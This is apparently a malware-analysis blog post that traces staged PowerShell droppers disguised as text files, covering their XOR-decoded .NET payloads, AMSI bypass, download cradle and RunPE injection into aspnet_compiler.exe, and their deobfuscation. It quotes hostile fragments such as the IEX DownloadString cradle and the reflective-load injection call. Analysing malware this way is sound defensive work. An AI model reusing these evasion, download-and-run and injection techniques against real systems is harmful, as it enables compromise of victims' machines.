

# Star date 16th March 2021:

Original Twitter post:


Decided to download the files from the server so I could train my analysis. 

I've downloaded txt, xml, sqlite and torrent files from directories named atomic1 and eset_202102:


Comparing files, the only difference was the file name incremented by one, on each directory:


The first txt file, a powershell script is used to find Windows Defender status using [Get-MpComputerStatus](https://docs.microsoft.com/en-us/powershell/module/defender/get-mpcomputerstatus?view=windowsserver2019-ps&viewFallbackFrom=win10-ps). Depending on the result, one of two files will be downloaded. Unfortunately, I forgot to download "amsi1.txt" file to check  what it would do to Anti Malware Scan Interface, beginner's mistake!


The "eset1.txt" file is a PowerShell script with the extension name changed to txt.


Depending on the result of ```if (-not ([System.Management.Automation.PSTypeName]"BP.AMS").Type)``` the script takes a different path. In case the condition is false it executes ```[BP.AMS]::Disable()``` to try to disable Anti Malware Scan.

In case the condition is true it defines 2 variables.


The first variable contains xor'd byte values and the second has the unxor key. for every value in the byte values variable it xor's the value against the predefined key value containing 5 elements, according to the cursor position and it's counter value. The following is an example of the first 6 operations:

ByteArray[0] = 121 xor 52 = 77
ByteArray[1] = 12 xor 86 = 90
ByteArray[2] = 210 xor 66 = 144
ByteArray[3] = 23 xor 23 = 0
ByteArray[4] = 62 xor 61 = 3
ByteArray[5] = 52 xor 52 = 0

Convert the resulting values to Unicode strings (16 bits) ```$string = [System.Text.Encoding]::Unicode.GetString($byteArray)``` and pipe the results to a file ```Write-Output $string | Out-File -FilePath c:\output\eset1.bin```, yelds a .NET PE executable file wich can be loaded into the application domain of the caller.

I'm commenting a few lines to be able to safely generate any encoded files:


The last operation in this script is to download a new txt file "atomic1.txt" using ```IEX (New-Object Net.WebClient).DownloadString```.


This new file is another PowerShell script, yet again with the extension name changed to txt.


To be able to increase the readability of the file, I've searched for any ocurrence of ";" and added 3 empty lines just to increase visibility of the various instructions on the file.


This allows me to quickly use the minimap to spot large spaces between large variable texts:


The file contains a condition, depending on if it can find the "aspnet_compiler.exe" file in directory "C:\Windows\Microsoft.NET\Framework\v2.0.50727\" two files are generated. At this point I decided to break the file in two files named "atomic1" and "atomic2", one to generate the positive condition files and another one to generate the negative condition files.

To be able to generate the files contained in the two variables defined in the file, I've commented the ```if([System.IO.File]::Exists("C:\Windows\Microsoft.NET\Framework\v2.0.50727\aspnet_compiler.exe"))``` line:


And commented out the injection code ```[Reflection.Assembly]::Load($Cli555).GetType('RunPe.RunPe').GetMethod('Run').Invoke($null,[object[]] ('C:\Windows\Microsoft.NET\Framework\v2.0.50727\aspnet_compiler.exe',$Cli444))``` line:


The same commented lines in "atomic1":


The same commented lines in "atomic2":



Using the same approach as with "eset1.txt" file, I've converted each of the variables to Unicode and used ```Write-Output``` and ```Out-File``` to execute the files in a sand-box VM to generate the files:


After noticing the same file size of a few of the files, I've opened the files in HashMyFiles application to see the hashes of each individual file. Regardless of ```if([System.IO.File]::Exists("C:\Windows\Microsoft.NET\Framework\v2.0.50727\aspnet_compiler.exe"))``` being installed of not, the files generated are the same:


With that out of way, it was time to identify the files. Each file came up as "Unknown" in Detect It Easy:


After opening the files in a Hex Editor program, I noticed the first 2 bytes in each file were preventing them from being identified as PE files: 


With the first 2 bytes removed from the files, Detect It Easy had no problem in identifying the files. The file generated from "eset1.txt" was identified as a .NET(v4.0.30319) file, and the linker used was Microsoft Linker(11.0)[ DLL32 ]:


With file "atomic1-cli444", Detect It Easy only reported the linker information, it seems this file needs to be further worked on:


File "atomic-cli555" reported that a .NET obfuscator named Confuser(1.X) had been used to obfuscate the .NET (v2.0.50727) file:


Going back to the "eset1" file, using DNSpy decompiler to take a look at the source code:


After further online investigation, the source used in the script was found in this blog post [Citadel Cyber Security](https://www.citadel.co.il/Home/Blog/1008):


Another note was that file "atomic1-cli444" had its .reloc section being flagged as packed in Detect It Easy:


By opening "atomic1-cli555" in DNSpy I was left confused, as expected:


After searching github for an unpacker that could get rid of the obfuscation appield to the file, I found [https://github.com/ViRb3/de4dot-cex/releases](https://github.com/ViRb3/de4dot-cex/releases), which was able to deobfuscate some parts of file before throwing an error message:


By having part of the deobfuscated file I was able to better understand it by searching online and it seems the functionality in the script is derived from a .NET C# script dating back from 2015 named "Aeonhack RunPE C#" (VB version is also available) in [pastebin](https://pastebin.com/Dzhad8rB):


A raw view of the script:


The pastebin script side by side with the deobfuscated file:


